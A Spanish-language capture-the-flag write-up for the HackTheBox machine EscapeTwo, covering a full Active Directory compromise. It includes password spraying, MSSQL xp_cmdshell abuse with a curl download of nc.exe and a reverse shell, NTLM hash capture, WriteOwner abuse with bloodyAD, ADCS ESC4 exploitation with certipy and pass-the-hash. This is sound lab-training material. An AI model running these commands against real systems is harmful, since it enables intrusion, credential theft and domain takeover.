# EscapeTwo


<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **EscapeTwo**.

```bash
nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.51 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49685,49686,49687,49702,49718,49739,49800 10.10.11.51 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

Verificaremos también a qué tipo de máquina nos enfrentamos a través de **netexec**.

```bash
ldapsearch -x -H ldap://10.10.11.51 -s base | grep defaultNamingContext

nxc smb 10.10.11.51
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

<figure><figcaption></figcaption></figure>

En esta máquina de HTB nos proporcionan credenciales de un usuario del dominio para realizar al explotación. Tal como indica el mensaje, esto es muy común en la vida real de los Pentesters de Windows de proporcionarles una máquina con unas credenciales válidas para empezar a realizar el pentest.&#x20;

En este caso, disponemos las siguientes credenciales: _rose / KxEPkKe6R8su_

<figure><figcaption></figcaption></figure>

## Kerberoasting Attack (Failed)

Uno de los primeros ataques que podemos realizar al disponer de credenciales válidas del dominio es realizar un _**Kerberoasting Attack**_ para intentar obtener un TGS (Ticket Granting Service) sobre un usuario que disponga de algún SPN (ServicePrincipalName).

En este caso, comprobamos que obtenemos los hashes de los usuarios `sql_scv` y del usuario `ca_svc`.

```bash
impacket-GetUserSPNs -dc-ip 10.10.11.51 sequel.htb/rose -request 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Guardaremos los hashes obtenidos en un archivo TXT y utilizaremos la herramienta de `hashcat` para intentar crackear los hashes y obtener las contraseñas en texto plano.

Verificamos que en este caso no hemos logrado crackear ninguno de los hashes obtenidos con el diccionario de `rockyou.txt`.

```bash
hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Con las credenciales del usuario `rose@sequel.htb`, procderemos a enumerar el servicio SMB para revisar los recursos compartidos los cuales disponde de acceso.

Entre los resultados obtenidos, verificamos que tenemos acceso de `READ` sobre los recursos (`Accounting Department` y `Users`) los cuales no suelen ser comúnmente expuestos de manera normal.

```bash
nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su'

nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --shares
```

<figure><figcaption></figcaption></figure>

A través del módulo de `spider_plus`, procederemos a crear un archivo JSON con la estructura del SMB para verificar en qué directorios hay archivos y comprobar si alguno de los archivos nos puede servir.

```bash
nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' -M spider_plus
```

<figure><figcaption></figcaption></figure>

Verificaremos el archivo JSON que se nos ha generado y en el resultado obtenido, verificamos que existen dos archivos XLSX en el recurso `Accounting Department`.

<figure><figcaption></figcaption></figure>

Procederemos a montar el recurso compartido indicado en nuestro directorio `/mnt/shares`. Verificaremos que disponemos de los 2 archivos en nuestro equipo local que procederemos a copiar en el directorio en el cual nos encontramos.


```bash
mount -t cifs -o username=rose,password=KxEPkKe6R8su '//10.10.11.51/Accounting Department' /mnt/shares
```


<figure><figcaption></figcaption></figure>

Revisaremos de que tipo de archivos se tratan, verificamos que nos aparece que son un "Zip archive data".

Las extensiones XLSX normalmente hacen referencia a archivos de Excel.

<figure><figcaption></figcaption></figure>

Al intentar abrir ambos archivos, nos aparecen de la siguiente manera, al parecer no son muy legibles y no parece darnos ningún tipo de información disponible. Probaremos de cambiar el tipo de "Character set" y demás, pero tampoco logramos obtener un archivo legible.

<figure><figcaption></figcaption></figure>

Un archivo Excel (`.xlsx`) es, en realidad, un archivo comprimido en formato ZIP. Esto permite descomprimirlo y analizar su contenido en busca de información relevante u oculta.

Procederemos a descromprimir el archivo `accounts.xlsx` y verificaremos la estructura de los archivos y directorios que se nos han generado.

```bash
unzip accounts.xlsx

tree
```

<figure><figcaption></figcaption></figure>

Revisando todos los archivos que nos había gnerado el XLSX, verificamos que en el archivo nombrado `sharedStrings.xml` parece tener nombres de usuario y lo que parecen ser contraseñas.

<figure><figcaption></figcaption></figure>

Guardaremos los usuarios que aparecen en el XML y las contraseñas en archivos.

<figure><figcaption></figcaption></figure>

## Users Enumeration (rpcenum && Kerbrute)

Por otro lado, procederemos a enumerar a los usuarios del dominio a través de la herramienta [`rpcenum`](https://github.com/s4vitar/rpcenum).  Guardaremos los nombres de los usuarios en el archivo "users.txt" que hemos creado anteriormente.

```bash
rpcenum -e DUsers -i 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su'
```

<figure><figcaption></figcaption></figure>

Procederemos a eliminar los usuarios duplicados y a quedarnos con el listado de usuarios.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `Kerbrute` procederemos a validar con el listado de usuarios que sean válidos a nivel de dominio. Verificamos que de los 12 usuarios que disponemos, solamente 7 usuarios son válidos.

```bash
kerbrute userenum --dc 10.10.11.51 -d sequel.htb users.txt
```

<figure><figcaption></figcaption></figure>

## Password Spraying

Procederemos a realizar un _**Password Spraying**_ con el listado de usuarios y contraseñas que disponemos para verificar si disponemos de algunas credenciales válidas.

Verificamos que hemos validado y hemos logrado obtener las credenciales del usuario `oscar@sequel.htb`.

```bash
nxc smb 10.10.11.51 -u users.txt -p passwords.txt --continue-on-success
```

<figure><figcaption></figcaption></figure>

Revisaremos si disponemos de acceso a algún nuevo recurso compartido SMB, en este caso, el usuario dispone de los mismos permisos del usuario `rose@sequel.htb`.

```bash
nxc smb 10.10.11.51 -u 'oscar' -p '86LxLBMgEWaKUnBG'

nxc smb 10.10.11.51 -u 'oscar' -p '86LxLBMgEWaKUnBG' --shares
```

<figure><figcaption></figcaption></figure>

## MSSQL Enumeration

En el resultado de la enumeración de puertos de Nmap, hemos verificado también que el puerto 1433 (Microsoft SQL Server) se encontraba expuesto.

Por lo tanto, podemos intentar enumerar este servicio para intentar buscar algúna tabla con información sensible o explotar el MSSQL a través de funciones que dispone el servicio.

<figure><figcaption></figcaption></figure>

### Enumerating MSSQL with rose user

En nuestra primera enumeración al servicio de _**MSSQL**_, procederemos a enumerar a través del usuario `rose@sequel.htb`. Al intentar acceder por primera vez al MSSQL con la herramienta de `mssqlclient.py`, verificamos que nos indica el mensaje de "Login failed".

Si procedemos a intentar acceder nuevamente con el parámetero `-windows-auth`, verificamos que ganamos acceso al MSSQL. Es muy importante siempre probar ambas autenticaciones debido que alguna nos puede dar el acceso, en este caso, nos permitía acceder a través de la autenticación de Windows y no la de SQL.

```bash
mssqlclient.py sequel.htb/rose@10.10.11.51

mssqlclient.py sequel.htb/rose@10.10.11.51 -windows-auth
```

<figure><figcaption></figcaption></figure>

Al acceder al MSSQL, lo primero que deberemos de comprobar es la existencia de las BBDDs que existen, a través de la siguiente consulta hemos conseguido enumerarlas.

En este caso, las BBDDs que se encuentran actualmente son las que vienen por defecto en MSSQL, por lo que parece que no haya ningún tipo de información relevante.

```sql
SELECT name FROM master.dbo.sysdatabases;
```

<figure><figcaption></figcaption></figure>

#### Attempting to enable (xp\_cmdshell) function on MSSQL (Failed)

Al no disponer de ninguna BBDD interesante, otra de las maneras que podemos de intentar explotar el MSSQL es a través de la función `xp_cmdshell` la cual nos permite ejecutar comandos arbitrarios en el equipo víctima.

Al intentar habilitar este componente, verificamos que el usuario que disponemos actualmente no dispone de privilegios para realizar esta acción.

```sql
SP_CONFIGURE "show advanced options",1
```

<figure><figcaption></figcaption></figure>

#### MSSQL Hash Steal Attempt \[Net-NTLMv2] (xp\_dirtree) - \[FAILED]

Otro tipo de ataque a realizar al acceder a un MSSQL, es intentar robar el hash NTLMv2 del usuario que corre el servicio SQL.

Este proceso se basa en crear un servidor SMB a través de `smbserver.py` o `responder` y desde el servicio de MSSQL listar el contenido del recurso compartido para lograr obtener el hash NTLMv2 del usuario.

En este caso, verificamos que hemos recibido el hash NTLMv2 del usuario `sql_svc`, el cual antes habíamos comprobado que también era Kerberostable y no logramos crackear su hash. Por lo tanto, con este otro hash del mismo usuario, con el diccionario empleado tampoco lograremos crackear su hash para lograr obtener la contraseña en texto plano.

```sql
responder -I tun0 -v

EXEC Master.dbo.xp_dirtree"\\10.10.16.5\x",1,1;
```

<figure><figcaption></figcaption></figure>

### Enumerating MSSQL with oscar user

Con el usuario anterior no hemos logrado obtener ningún tipo de información relevante, por lo tanto, procederemos a autenticarnos al MSSQL con el usuario `oscar@sequel.htb`.

Al acceder al MSSQL verificaremos si con este usuario tenemos acceso a alguna BBDD nueva y a verificar si disponemos de acceso a habilitar la función `xp_cmdshell`.

Verificamos que no hay nuevas BBDDs disponibles y tampoco disponemos del acceso a habilitar el componente para obtener un RCE (Remote Code Execution). Por otro lado, descartaremos volver a realizar la explotación del componente `xp_dirtree` debido que obtendremos el mismo resultado anterior.

Tampoco hemos logrado obtener ningún tipo de información que nos pueda servir para escalar nuestros privilegios y o acceder al equipo víctima.

```bash
mssqlclient.py sequel.htb/oscar@10.10.11.51

mssqlclient.py sequel.htb/oscar@10.10.11.51 -windows-auth
```

```sql
SP_CONFIGURE "show advanced options",1

SELECT name FROM master.dbo.sysdatabases;
```

<figure><figcaption></figcaption></figure>

### Enumerating MSSQL with sa user

Revisando nuevamente el archivo `sharedStrings.xml` que logramos obtener en la enumeración del SMB, verificamos nuevamente que al parecer hay un usuario llamado `sa@sequel.htb` con unas credenciales.

En este punto, no nos dimos cuenta de esto debido que a la hora de realizar la validación de credenciales válidas solamente nos reportó las credenciales válidas del usuario `oscar@sequel.htb`, por lo que parece ser que este usuario no es un usuario del dominio ya que tampoco lo encontramos en la enumeración de usuarios con `rpcenum`.

<figure><figcaption></figcaption></figure>

Al intentar acceder al MSSQL con estas nuevas credencials con el parámetro `-windows-auth`, nos aparece un mensaje indicando el acceso incorrecto. Si probamos de acceder a través de la autenticación de SQL verificamos que hemos logrado acceder al MSSQL con el usuario `sa@sequel.htb`.

A través de este nuevo usuario, verificaremos si disponemos de permisos para habilitar el componente `xp_cmdshell`, verificamos que efectivamente tenemos el privilegio necesario para realizarlo.

```bash
mssqlclient.py sequel.htb/sa@10.10.11.51 -windows-auth

ssqlclient.py sequel.htb/sa@10.10.11.51
```

```sql
SP_CONFIGURE "show advanced options",1
```

<figure><figcaption></figcaption></figure>

#### Enabling the function (xp\_cmdshell) to get RCE in MSSQL

Al verificar que disponemos de los privilegios necesarios para habilitar la función mencionada, procederemos a habilitarla a través de la siguiente instrucción y a verificar que podemos ejecutar comandos.

Verificamos que hemos logrado ejecutar el comando `whoami` y nos indica que somos el usuario `sql_svc@sequel.htb`.


```sql
EXEC sp_configure "show advanced options",1; RECONFIGURE; EXEC sp_configure "xp_cmdshell",1; RECONFIGURE;

xp_cmdshell "whoami"
```


<figure><figcaption></figcaption></figure>

Verificado que podemos lograr ejecutar comandos, procederemos a disponer del binario de `nc.exe` en nuestro equipo atacante el cual compartiremos a través de un servidor web de Python.

Desde la consola de MSSQL procederemos a descargarnos el binario en una ubicación la cual el AppLocker no nos lo restringa. Por otro lado, procederemos a ponernos en escucha por un puerto y a ejecutar el binario de `nc.exe` desde la consola del MSSQL para proporcionarnos una Reverse Shell al equipo.

Verificamos que hemos logrado obtener acceso al equipo víctima con el usuario `sql_svc@sequel.htb`.

<pre class="language-bash"><code class="lang-bash"><strong># Desde Kali Linux
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong>rlwrap -cAr nc -nlvp 443
</code></pre>

```sql
# Desde consola de MSSQL
xp_cmdshell "curl 10.10.16.5/nc.exe -o C:\Windows\System32\spool\drives\color\nc.exe"

xp_cmdshell "C:\Windows\System32\spool\drives\color\nc.exe -e cmd 10.10.16.5 443"
```

<figure><figcaption></figcaption></figure>

## Initial Access

Al obtener acceso a la máquina `DC01.sequel.htb` con el usuario `sql_svc@sequel.htb`, lo primero será revisar los privilegios y grupos que dispone el usuario actual.

En este caso, parece no haber ningún grupo/privilegio interesante a revisar.

<figure><figcaption></figcaption></figure>

Por otro lado, revisaremos las conexiones internas que hay abiertas (127.0.0.1), tampoco visualizamos ningún puerto sospechoso.

<figure><figcaption></figcaption></figure>

### **Sensitive Credentials Exposed in SQL Server Configuration File**

Revisando la raíz `C:\`, verificamos que existe una carpeta llamada `SQL2019`, la cual no es una carpeta común en equipos Windows.

<figure><figcaption></figcaption></figure>

Revisando el directorios nos encontramos a los siguientes archivos, el archivo que parece ser un archivo sensible es el nombrado `sql-Configuration.INI`.

<figure><figcaption></figcaption></figure>

Revisando el contenido de dicho archivo, verificamos que hemos localizado las credenciales del usuario actual `sql_svc@sequel.htb`. Podemos investigar si esta contraseña nos puede servir más adelante.

<figure><figcaption></figcaption></figure>

### Passwod Spraying

Procederemos a realizar un _**Password Spraying**_ con la contraseña encontrada sobre el listado de usuarios del dominio.

Verificamos que estas credenciales se reutilizan para el usuario `ryan@sequel.htb`.

```bash
nxc smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
```

<figure><figcaption></figcaption></figure>

### LDAP Enumeration (ldapdomaindump)

Por otro lado, procederemos a realizar una enumeración del LDAP a través de la herramienta `ldapdomaindump`.

<figure><figcaption></figcaption></figure>

Verificaremos el archivo `domain_users.html` y comprobaremos que el usuario que hemos validado hace poco, forma parte del grupo _**Remote Management Users**_, por lo que nos podemos conectar mediante RDP o WinRM si se encuentra habilitado.

<figure><figcaption></figcaption></figure>

### Abusing WinRM - EvilWinRM

Validaremos que a través de WinRM podemos acceder, comprobamos que nos aparece el mensaje de `Pwn3d`, por otro lado, verificamos que hemos logrado acceder al equipo mediante la herramienta de `evil-winrm` y verificado la flag de **user.txt.**

```bash
nxc winrm 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3'

evil-winrm -i 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3'
```

<figure><figcaption></figcaption></figure>

Verificaremos de los privilegios del usuario actual y de los grupos a los cuales forma parte, tampoco verificamos que forme parte de algún grupo interesante.

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Procederemos a realiar una enumeración con **BloodHound** para buscar vectores y descubrir como poder escalar nuestros privilegios.


```bash
bloodhound-python -c All -ns 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3' -d sequel.htb --zip
```


<figure><figcaption></figcaption></figure>

Al revisar en `BloodHound`, verificamos los usuarios que son Domain Admins, en este caso, solamente el usuario `Administrator@sequel.htb` forma parte de este grupo.

<figure><figcaption></figcaption></figure>

Revisando al usuario que disponemos actualmente `ryan@sequel.htb`, verificamos los grupos a los cuales forma parte como miembro. El único grupo que podríamos revisar si podemos escalar nuestros privilegios es el de (`Management Department@sequel.htb`) que no conocemos nada sobre él.

<figure><figcaption></figcaption></figure>

Se identificó que el usuario `ryan@sequel.htb` dispone del privilegio `WriteOwner` sobre el usuario `ca_svc@sequel.htb`.&#x20;

<figure><figcaption></figcaption></figure>

Este privilegio otorga la capacidad de modificar el propietario del objeto `ca_svc`, lo cual permite al usuario `ryan` tomar control total sobre este objeto.

A través de estos permisos, se pueden realizar acciones como:

* Cambiar la contraseña del usuario `ca_svc`.
* Autenticarse con las credenciales de `ca_svc`.
* Escalar privilegios o realizar movimiento lateral en el dominio, dependiendo de los privilegios asociados al usuario `ca_svc`.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Abuse of WriteOwner privileges on a user (to change a user's password) with bloodyAD

Se procedió a explotar este privilegio al asignarnos como propietarios del usuario `ca_svc` utilizando la función `WriteOwner`. Al convertirnos en propietarios, obtuvimos control total sobre el usuario. Posteriormente, para garantizar aún más el control, se otorgaron permisos de `GenericAll` sobre el usuario, lo que nos permitió ejecutar cualquier acción necesaria

Finalmente, se cambió la contraseña del usuario a `Password01!`. Con esta acción, logramos tener acceso y control absoluto sobre el objeto.


```bash
bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' ryan

bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' add genericAll 'ca_svc' ryan

bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' set password 'ca_svc' 'Password01!'
```


<figure><figcaption></figcaption></figure>

Verificaremos que hemos logrado cambiar la contraseña del usuario `ca_svc@sequel.htb` correctamente.

```bash
nxc smb 10.10.11.51 -u 'ca_svc' -p 'Password01!'
```

<figure><figcaption></figcaption></figure>

### ESC4 exploitation case with certipy-ad

Revisando en BloodHound el usuario recién obtenido, verificamos que forma parte del grupo (`Cert Publishers@sequel.htb`), y por el nombre de usuario, parece estar relacionado con los ADCS (Active Directory Certificate Services).

ADCS es el rol que maneja la emisión de certificados para usuarios, equipos y servicios en la red de Active Directory. Este servicio, si está mal configurado, puede presentar vulnerabilidades que los atacantes podrían explotar para elevar privilegios o acceder a información sensible.

Algunas de las posibles vulnerabilidades que puede tener ADCS son:

1. **Delegación de privilegios en la emisión de certificados**: Si ciertos usuarios tienen permisos para emitir certificados para otros, un atacante podría abusar de estos privilegios para obtener permisos elevados.
2. **Mala configuración en las plantillas de certificados**: Configuraciones incorrectas en las plantillas de certificados podrían permitir que un atacante solicite un certificado en nombre de otro usuario, incluso uno con privilegios elevados.
3. **NTLM Relaying en HTTP**: Si el ADCS acepta autenticación NTLM en lugar de Kerberos, un atacante podría redirigir las solicitudes para ganar acceso.

<figure><figcaption></figcaption></figure>

Al ejecutar este comando, **Certipy** explora el entorno de Active Directory en busca de configuraciones del **Active Directory Certificate Services (ADCS)** que puedan ser explotadas. Esta herramienta identifica configuraciones débiles, como permisos mal configurados en las plantillas de certificados, lo que puede permitir el abuso de privilegios en el dominio.


```bash
certipy-ad find -u ca_svc@sequel.htb -p 'Password01!' -dc-ip 10.10.11.51 -vulnerable -stdout
```


<figure><figcaption></figcaption></figure>

Al realizar el escaneo, encontramos que la vulnerabilidad **ESC4** está presente. Esta vulnerabilidad específica en ADCS permite a usuarios con acceso limitado obtener certificados que, posteriormente, pueden ser utilizados para autenticarse como entidades con mayores privilegios. Esto sucede porque las plantillas de certificados están configuradas de manera insegura, permitiendo solicitudes de certificados con derechos elevados.

En términos simples, el ESC4 en ADCS permite que un atacante aproveche las plantillas mal configuradas para obtener certificados con privilegios adicionales, facilitando el movimiento lateral en el dominio.

Para consultar cómo funciona **certipy-ad** y cómo se pueden detectar las vulnerabilidades en ADCS, puedes revisar más detalles en la siguiente página oficial: [Certipy GitHub](https://github.com/ly4k/Certipy?tab=readme-ov-file#certipy).

<figure><figcaption></figcaption></figure>

Al verificar que existe la vulnerabilidad de ESC4 en el ADCS, procederemos a revisar la siguiente entrada donde explican paso a paso como aprovecharnos de esta vulnerabilidad



En la página web mencionada, verificamos como explotar esta vulnerabilidad desde Linux a través de la herramienta de `certipy-ad`.

<figure><figcaption></figcaption></figure>

Procederemos a realizar la explotación del ESC4, para ello lo primero será guardar la antigua configuración, editarla y hacerla vulnerable a través del siguiente comando.


```bash
certipy-ad template -u 'ca_svc@sequel.htb' -p 'Password01!' -template DunderMifflinAuthentication -save-oid -dc-ip 10.10.11.51
```


<figure><figcaption></figcaption></figure>

Revisaremos nuevamente que el Template ha sido modificado correctamente.


```bash
certipy-ad find -u 'ca_svc@sequel.htb' -p 'Password01!' -dc-ip 10.10.11.51 -vulnerable -stdout
```


<figure><figcaption></figcaption></figure>

Procederemos a explotar el Template modificado para solicitar un certificado suplantando al usuario `Administrator`.

Al obtener el certificado `administrator.pfx`, procederemos a recuperar el hash NTLM del usuario `Administrator`, también se nos ha generado un archivo `administrator.ccache` que también podremos utilizar para autenticarnos.


```bash
certipy-ad req -u 'ca_svc@sequel.htb' -p 'Password01!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn Administrator -dc-ip 10.10.11.51

certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```


<figure><figcaption></figcaption></figure>

### Pass-The-Hash on EvilWinRM

Una vez obtenido el hash NTLM del usuario `Administrator@sequel.htb` procederemos a validar que podemos realizar _**Pass-The-Hash**_ y conectarnos al DC mediante `evil-winrm` y verificar la flag de **root.txt.**

```bash
nxc smb 10.10.11.51 -u 'Administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'

evil-winrm -i 10.10.11.51 -u 'Administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```

<figure><figcaption></figcaption></figure>
